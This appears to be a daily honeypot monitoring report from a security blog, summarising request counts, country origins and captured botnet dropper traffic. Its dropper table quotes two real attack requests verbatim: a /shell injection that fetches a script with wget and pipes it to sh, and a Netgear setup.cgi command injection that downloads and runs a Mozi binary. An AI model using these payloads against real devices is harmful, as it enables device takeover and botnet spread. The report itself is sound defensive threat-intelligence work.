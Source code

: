 ```yaml
---
title: "Report: 2025-05-29 "
date: 2025-05-29
desciption: "Report: 2025-05-29" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-29 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 1156 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3817 requests were recorded during the day, originating from 2 different countries, with a peak of 2697 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.147   | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/payload1.sh+-O-+|+sh HTTP/1.1                                                                                   |
| 112.240.200.125 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://112.240.200.125:48954/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
